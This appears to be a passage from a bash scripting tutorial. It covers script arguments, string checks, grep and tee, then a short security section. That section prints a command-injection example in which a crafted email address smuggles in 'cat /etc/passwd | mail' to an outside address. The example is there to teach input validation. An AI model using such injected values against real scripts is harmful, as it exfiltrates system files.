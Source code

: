 . StarWars.sh
```

and

```
. StarWars.sh force
```

It must be noticed that the first argument is saved in the `$1` variable. What is, then, `$0`? This is the name of the shell script! And what is `$#`? This is the number of parameters!

What happens if we do not provide any argument?
We need to check that the string has been assigned, which can be done by adding

```
if [ -n "${string}" ]
then
    for file in $files; do grep —color -w $string $file >> Sentences.dat; done
else
    echo "No string provided."
    return
fi
```

What happens if we use `exit` instead of `return`?

Another useful command worth mentioning is `tee`, which allows to save the output into a file, but also to show it on the stdout (our screen):

```ls Poems/*.txt | tee ListOfFilesWithTee.dat```

If we want to append to the output file, we can use the `-a` option:

```ls Poems/*.txt | tee -a ListOfFilesWithTee.dat```

## Bash security

[Situations that can turn very wrong very quickly](http://i.stack.imgur.com/MI1tR.jpg), which means it is important to be aware of potentially dangerous behaviours.

It is a good practice to not trust input data, which is one of the most common reasons of security-related incidents.
Some examples are buffer overflow (that is, accepting input longer than the size of the allocated memory), invalid or malicious input, code inside data, and many others.

One practical example, provided by Sebastian Lopienski, is the following: let's say we wrote a script that sends emails using the `mail` command:

```cat confirmation.txt | mail $email```

and someone provides the following email address:

```me@fake.com; cat /etc/passwd | mail me@real.com```

So, what do we get?

```
cat confirmation.txt | mail me@fake.com;
cat /etc/passwd | mail me@real.com
```

Great!

## Complexity

```